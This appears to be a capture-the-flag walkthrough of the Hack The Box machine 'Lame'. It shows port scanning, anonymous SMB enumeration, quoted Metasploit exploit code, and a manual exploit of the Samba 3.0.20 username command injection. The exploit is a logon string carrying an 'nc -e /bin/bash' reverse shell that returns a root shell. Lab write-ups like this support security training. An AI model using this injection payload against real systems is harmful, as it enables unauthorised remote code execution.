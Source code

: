 ```
$ sudo nmap -sS -p- -v -Pn 10.10.10.3
```
```
PORT     STATE SERVICE
21/tcp   open  ftp
22/tcp   open  ssh
139/tcp  open  netbios-ssn
445/tcp  open  microsoft-ds
3632/tcp open  distccd
```

```
$ nmap -p21,22,139,445,3632 -sCV 10.10.10.3 -Pn 
```
```
PORT     STATE SERVICE     VERSION
21/tcp   open  ftp         vsftpd 2.3.4
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to 10.10.14.15
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      vsFTPd 2.3.4 - secure, fast, stable
|_End of status
|_ftp-anon: Anonymous FTP login allowed (FTP code 230)
22/tcp   open  ssh         OpenSSH 4.7p1 Debian 8ubuntu1 (protocol 2.0)
| ssh-hostkey: 
|   1024 600fcfe1c05f6a74d69024fac4d56ccd (DSA)
|_  2048 5656240f211ddea72bae61b1243de8f3 (RSA)
139/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp  open  netbios-ssn Samba smbd 3.0.20-Debian (workgroup: WORKGROUP)
3632/tcp open  distccd     distccd v1 ((GNU) 4.2.4 (Ubuntu 4.2.4-1ubuntu4))
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
| smb-os-discovery: 
|   OS: Unix (Samba 3.0.20-Debian)
|   Computer name: lame
|   NetBIOS computer name: 
|   Domain name: hackthebox.gr
|   FQDN: lame.hackthebox.gr
|_  System time: 2023-05-14T08:42:27-04:00
|_smb2-time: Protocol negotiation failed (SMB2)
| smb-security-mode: 
|   account_used: <blank>
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
|_clock-skew: mean: 2h00m22s, deviation: 2h49m43s, median: 21s
```

```
$ searchsploit vsftpd 2.3.4
```


```
$ smbclient -L 10.10.10.3
```
```
Anonymous login successful

        Sharename       Type      Comment
        ---------       ----      -------
        print$          Disk      Printer Drivers
        tmp             Disk      oh noes!
        opt             Disk      
        IPC$            IPC       IPC Service (lame server (Samba 3.0.20-Debian))
        ADMIN$          IPC       IPC Service (lame server (Samba 3.0.20-Debian))
Reconnecting with SMB1 for workgroup listing.
Anonymous login successful

        Server               Comment
        ---------            -------

        Workgroup            Master
        ---------            -------
        WORKGROUP            LAME
```
tmp and opt look like they are accesible as anonymous user.

```
$ smbclient //10.10.10.3/tmp
```
```
Anonymous login successful
Try "help" to get a list of possible commands.
smb: \> 
```
After checking the content, nothing interesting was found.

```
$ searchsploit samba 3.0.20 
```

The output of this search shows an exploit used by metasploit for this smb version.
Let's get a copy of the file and understand what it does.
```
$ searchsploit -m 16320
```
```
def exploit
	connect
	# lol?
    username = "/=`nohup " + payload.encoded + "`"
    begin
	    simple.client.negotiate(false)
	    simple.client.session_setup_ntlmv1(username, rand_text(16), datastore['SMBDomain'], false)
    rescue ::Timeout::Error, XCEPT::LoginError
	    # nothing, it either worked or it didn't ;)
	end
	handler
end
```

A payload injection is being done in the username. Let's try to replicate it.

Firstly we connect with smbclient to the tmp folder. The we try to login with the command logon.
Open a port to listenign the incoming reverse shell.
```
$ nc -lvnp 9001
```

Then execute the login with the payload pointing to our ip.
```
smb: \> logon "/=`nohup nc -e /bin/bash 10.10.14.15 9001`"
```

A terminal session is now ready in the nectat port that we set.
```
connect to [10.10.14.15] from (UNKNOWN) [10.10.10.3] 42150
sh: no job control in this shell
sh-3.2# 
``